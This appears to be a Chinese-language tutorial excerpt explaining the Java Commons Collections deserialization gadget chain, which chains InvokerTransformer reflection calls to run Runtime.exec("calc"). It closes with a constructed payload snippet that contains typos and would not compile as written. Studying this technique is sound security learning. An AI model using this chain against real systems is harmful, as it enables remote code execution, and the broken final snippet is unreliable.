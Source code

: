 ```java
public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
```
进行一个链式调用。
```java
new ConstantTransformer(Runtime.class),//返回我们的类
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        };
```
第一个，无论传进来什么类，都会要给定义好的值。
```java
public Object transform(Object input) {
        return this.iConstant;
    }
```
这里设置的时候，传的是Runtime.class类。
然后进invoketransformer方法，进行反射。
```java
Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
```
input是Runtime.class反射，iMethodName是‘getmethod',iParamTypes是传入参数的类型，指定了getmethod的两个参数，前一个是string，后面一个要传给string所指方法的参数类型，这里是均为Class的对象。
于是获取了方法为“getmethod”的getmethod对象，然后调用getmethod作用于runtime的原型类，并传入getruntime作为参数，相当于反射的对象runtime调用getmethod获取runtime方法。
## 实现
方法调用公式（虽然这么叫不太好）：
```java
第一步：
方法名所属对象获取对象原型，即xxx.class
第二步：
对对象原型使用getMethod("方法名",参数的原型Class);//多个参数就都号分开写，null就new Object[]{null}
第三步：
对getMethod获取的对象使用invoke("方法名所属对象","参数")
```
按照这个公式
```java
Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
```
第一行对应第一步，第二行对应第二步，第三行对应第三步。
然后分析参数，input是我们要给的对象，直接就Runtime.class.
iMethodName是要调用的方法,为构造函数的第一个参数，iParamTypes为第二个参数，表示传参类型的class。
iArgs为第三个参数，表示要传进的参数。
可以通过反射获取反射方法，实现反射方法。
根据此，构造如下payload：
```java
new InvokeTransforemer("getMethod",new class[]{String,class,class[].class},new Object("getRuntime",null));
new InvokeTransforemer("invoke",new class[]{object.class,object[].class},new Object[]{null,null});
new InvokeTransforemer("exec",new class[]{String.class},new Object[]{"calc"};
```
